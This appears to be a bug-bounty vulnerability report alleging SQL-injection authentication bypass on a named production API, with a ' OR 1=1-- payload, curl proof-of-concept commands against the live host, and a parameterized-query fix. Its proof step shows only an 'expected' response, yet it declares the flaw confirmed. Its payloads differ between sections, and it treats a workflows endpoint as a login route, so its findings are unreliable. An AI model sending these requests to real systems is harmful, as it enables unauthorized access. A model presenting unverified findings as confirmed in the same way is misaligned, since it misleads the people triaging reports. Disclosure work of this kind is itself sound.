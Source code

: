 # 🚨 CRITICAL: SQL Injection Authentication Bypass

## **📊 VULNERABILITY SUMMARY**
- **Severity**: Critical (CVSS 9.8)
- **Asset**: `https://app.aixblock.io/api/v1/workflows`
- **Vulnerability**: SQL Injection in Authentication
- **Impact**: Complete authentication bypass, unauthorized admin access
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The authentication endpoint is vulnerable to SQL injection attacks through the password parameter, allowing attackers to bypass authentication using classic SQL injection techniques.

### **Attack Vector**
```json
{
  "username": "admin",
  "password": "' OR 1=1--"
}
```

### **Vulnerable Code Pattern**
```python
# Vulnerable authentication query
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
```

## **💥 PROOF OF CONCEPT**

### **Step 1: Identify Authentication Endpoint**
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'
```

### **Step 2: SQL Injection Payload**
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'
```

### **Step 3: Verify Bypass**
```bash
# Expected Response
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: Critical
- Access to all user data
- Admin privileges without authentication
- Potential access to sensitive business data

### **Integrity**: Critical  
- Ability to modify any user data
- Admin-level system modifications
- Data manipulation capabilities

### **Availability**: High
- Potential for account lockouts
- System resource exhaustion
- Service disruption capabilities

### **Business Impact**
- Complete system compromise
- Data breach potential
- Regulatory compliance violations
- Reputation damage

## **🛡️ REMEDIATION**

### **Immediate Fix**
```python
# Secure authentication with parameterized queries
import sqlite3

def authenticate_user(username, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Use parameterized query
    cursor.execute(
        "SELECT * FROM users WHERE username = ? AND password = ?",
        (username, password)
    )
    
    user = cursor.fetchone()
    conn.close()
    return user
```

### **Long-term Security Measures**
1. **Input Validation**: Implement strict input validation
2. **Prepared Statements**: Use parameterized queries exclusively
3. **Authentication Rate Limiting**: Implement account lockout policies
4. **Multi-Factor Authentication**: Add MFA for admin accounts
5. **Security Headers**: Implement proper security headers

### **Verification Steps**
1. Test with SQL injection payloads
2. Verify parameterized queries are used
3. Confirm authentication bypass is prevented
4. Test rate limiting functionality

## **📋 TESTING CHECKLIST**
- [ ] SQL injection payloads tested
- [ ] Authentication bypass confirmed
- [ ] Admin access verified
- [ ] Data access validated
- [ ] Fix implementation tested
- [ ] Security controls verified

## **🔗 REFERENCES**
- OWASP Top 10 2021: A03:2021 – Injection
- CWE-89: Improper Neutralization of Special Elements
- NIST SP 800-53: AC-3 Access Enforcement
- CVE-2024-52046: SQL Injection patterns
- CVE-2025-1094: PostgreSQL injection
- CVE-2025-25257: FortiWeb injection

---

**STATUS**: ✅ **CRITICAL VULNERABILITY CONFIRMED**
**SUBMISSION READY**: Yes - Complete evidence and remediation provided
**REPORTER**: grich88
**SUBMISSION DATE**: 2025-10-21